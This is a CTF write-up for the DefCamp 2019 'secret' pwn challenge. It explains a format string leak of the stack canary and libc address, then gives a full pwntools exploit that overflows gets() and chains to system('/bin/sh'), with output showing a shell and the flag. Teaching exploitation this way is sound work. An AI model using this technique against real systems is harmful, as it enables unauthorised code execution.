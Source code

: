 ```yaml
---
layout: post
title:  "DefCamp Qualifiers 2019: secret"
date:   2019-09-08 17:00:01 +0800
categories: pwn
tags: DefCamp-Qualifiers-2019
---
```


This binary had a format string vulnerability + a stack buffer overflow vulnerability. We use the format string vulnerability to leak the stack canary and a libc address from the stack. Calculate libc base address then find the address of `system` and a `/bin/sh` string, then call `system("/bin/sh")` to get a shell.

### Challenge

* **Category:** pwn
* **Points:** 176
* **Solves:** 52

> Target: 206.81.24.129:1339
>
> Download [binary](https://drive.google.com/file/d/1Y0LdAk3K0NPIzFGsIOhNlOBwfIn-BTLK/view?usp=sharing)
>
> Author: Andrei

### Solution

This challenge is practically identical to Not So Easy Bof from HackCon 2019. You can find my writeup for that challenge [here](/pwn/2019/08/23/hackcon-not-so-easy-b0f.html). I'll skip a lot of the in depth stuff. The binary has all protections enabled except Full RELRO.
```sh
vagrant@ubuntu-bionic:/ctf/pwn-and-rev/defcamp-2019/pwn/secret$ checksec secret
[*] '/ctf/pwn-and-rev/defcamp-2019/pwn/secret/secret'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

To start off with, I open the binary in IDA to disassemble it. In this case the binary is simple enough to just use the decompiler, but you should realize that I usually only use the decompiler as a guide to see what I should really take a look at, and then use the actual disassembly to understand it.

The main function is as follows:
```c
 1. int __cdecl main(int argc, const char **argv, const char **envp)
 2. {
 3. 	char s; // [rsp+0h] [rbp-50h]
 4.   unsigned __int64 v5; // [rsp+48h] [rbp-8h]
 5.
 6.   v5 = __readfsqword(0x28u);
 7.   setvbuf(stdin, 0LL, 2, 0LL);
 8.   setvbuf(_bss_start, 0LL, 2, 0LL);
 9.   memset(&s, 0, 0x40uLL);
10.   printf("Enter your name?\nName: ");
11.   read(0, &s, 0x40uLL);
12.   printf("Hillo ");
13.   printf(&s); // FORMAT STRING VULNERABILITY HERE
14.   secret();
15.   return 0;
16. }
```

We see a format string vulnerability at line 13, as well as a call to `secret()`. The secret function does the following:
```c
 1. unsigned __int64 secret()
 2. {
 3.   char s1; // [rsp+0h] [rbp-90h]
 4.   unsigned __int64 v2; // [rsp+88h] [rbp-8h]
 5.
 6.   v2 = __readfsqword(0x28u);
 7.   printf("Enter secret phrase !\nPhrase: ");
 8.   gets(&s1); // BUFFER OVERFLOW VULNERABILITY HERE
 9.   printf("Entered secret > %s .\n", &s1);
10.   if ( !strcmp(&s1, "supersecretdctf2019") )
11.     puts("\nYou entered the same string two times");
12.   else
13.     puts("\nEntered strings are not same!");
14.   return __readfsqword(0x28u) ^ v2;
15. }
```

Here we see a buffer overflow vulnerability at line 8.

The key takeaway is that stack canaries are enabled, so in order to exploit this, my plan is the following:

1. Use the format string vulnerability to leak the stack canary from the stack as well as a libc address from the stack
2. Use the buffer overflow vulnerability to hijack program execution and jump to a one gadget in libc

Now before we begin, the challenge didn't provide a libc file, so I first just leaked a couple addresses off the stack on the remote server using the following script:
```python
#!/usr/bin/env python2

from pwn import *

context.log_level = 'critical'
BINARY = './secret'

for i in range(1, 26):
	#p = process(BINARY)
	p = remote('206.81.24.129', 1339)
	p.sendlineafter(': ', 'AAAAAAAA %{}$lx'.format(i))
	print '%02d: '%(i) + p.recvline()[:-1]
	p.close()

print ''
```
```c
vagrant@ubuntu-bionic:/ctf/pwn-and-rev/defcamp-2019/pwn/secret$ ./leak.py
01: Hillo AAAAAAAA 7ffd17473a40
02: Hillo AAAAAAAA 7f0489d77780
03: Hillo AAAAAAAA 7fb1ac3332c0
04: Hillo AAAAAAAA 7fc48cc0c700
05: Hillo AAAAAAAA 6
06: Hillo AAAAAAAA 4141414141414141
07: Hillo AAAAAAAA a786c24372520
08: Hillo AAAAAAAA 0
09: Hillo AAAAAAAA 0
10: Hillo AAAAAAAA 0
11: Hillo AAAAAAAA 0
12: Hillo AAAAAAAA 0
13: Hillo AAAAAAAA 0
14: Hillo AAAAAAAA 7ffc69e731c0
15: Hillo AAAAAAAA 50c8a62af6681400
16: Hillo AAAAAAAA 55844e558c40
17: Hillo AAAAAAAA 7f9da5e8c830
18: Hillo AAAAAAAA 0
19: Hillo AAAAAAAA 7ffe154e1b08
20: Hillo AAAAAAAA 100000000
21: Hillo AAAAAAAA 55d0bb425b6d
22: Hillo AAAAAAAA 0
23: Hillo AAAAAAAA 1b80133a664fcb03
24: Hillo AAAAAAAA 55abfbcb8960
25: Hillo AAAAAAAA 7ffd7da3f850
```

Now using gdb on my local machine, I know that the address at offset 2 is the libc address of `_IO_stdfile_1_lock_`, while the value at offset 15 is the stack canary.

Now the libc address at offset 2 changed constantly, but the last 12 bits were always `0x780`. I ran the local binary on multiple VMs with different libc versions, and found that the remote binary is using `libc-2.23` as that was the only one where the address at offset 2 ended with `0x780`. Now knowing this, I used gdb with an Ubuntu Xenial VM (which comes with `libc-2.23`) to find that the address at offset 2 is always `libc_base_address + 0x3c6780`.

I also found out using gdb that the number of bytes I have to type in before reaching the stack canary in the `secret()` function is 136 bytes.

For more information about how exactly I do all of the above, please check out [my writeup for Not So Easy Bof from HackCon 2019](/pwn/2019/08/23/hackcon-not-so-easy-b0f.html) which is basically the same challenge. My writeup for that challenge goes more in depth about the steps taken.

Next, I just leak the stack canary at offset 15 and the libc address at offset 2. I then calculate the libc base address, and since none of the one shot gadgets were working, I find the addresses of `system()` and the `/bin/sh` string. I then create the buffer overflow payload knowing that it will be `136bytes + 8byte_stack_canary + 8byte_saved_ebp + return_address`.

The following script will do the job:
```python
#!/usr/bin/env python2

from pwn import *

HOST, PORT = '206.81.24.129', 1339
BINARY = './secret'

elf = ELF(BINARY)
libc = ELF('./libc-2.23.so') # libc.so.6 from Ubuntu Xenial

def start():
    if not args.REMOTE:
        return process(BINARY)
    else:
        return remote(HOST, PORT)

p = start()

# canary offset is 136 bytes, index 15
# libc offset 0x3c6780 for address index 2
p.sendlineafter(': ', '0x%2$lx-0x%15$lx') # Leak libc address (idx 2) and the canary (idx 15)
leaks = p.recvline().split('-')

libc.address = int(leaks[0].split(' ')[1], 16) - 0x3c6780
canary = int(leaks[1], 16)
one_gadget = 0xf1147 # 0x45216, 0x4526a, 0xf02a4 <- none of the gadgets worked
system = libc.symbols['system']
bin_sh = libc.search('/bin/sh').next()
pop_rdi = libc.address + 0x21102 # found using ROPgadget on libc-2.23.so

log.info('libc base: ' + hex(libc.address))
log.info('canary: ' + hex(canary))
log.info('system: ' + hex(system))
log.info('/bin/sh: ' + hex(bin_sh))
log.info('pop rdi: ' + hex(pop_rdi))

payload = 'A'*136 # Write upto canary
payload += p64(canary) # Write the canary so we can smash the stack without it complaining
payload += 'B'*8 # Overwrite ebp
payload += p64(pop_rdi) # Jump to pop rdi gadget
payload += p64(bin_sh) # Put address of '/bin/sh' string into rdi
payload += p64(system) # call system("/bin/sh")

p.sendlineafter(': ', payload)

p.interactive()

p.close()
```

```sh
vagrant@ubuntu-bionic:/ctf/pwn-and-rev/defcamp-2019/pwn/secret$ ./exploit.py REMOTE
[*] '/ctf/pwn-and-rev/defcamp-2019/pwn/secret/secret'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/ctf/pwn-and-rev/defcamp-2019/pwn/secret/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 206.81.24.129 on port 1339: Done
[*] libc base: 0x7f4154a32000
[*] canary: 0x7d10bab19e1eaf00
[*] system: 0x7f4154a77390
[*] /bin/sh: 0x7f4154bbed57
[*] pop rdi: 0x7f4154a53102
[*] Switching to interactive mode
Entered secret > AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA .

Entered strings are not same!
$ ls
flag
pwn
readme
$ cat flag
DCTF{17AF6D77BFDAC4CAF6CD2FD2F3EB85FB654D2E36745F926169C0958333496979}$
```

Flag: `DCTF{17AF6D77BFDAC4CAF6CD2FD2F3EB85FB654D2E36745F926169C0958333496979}`
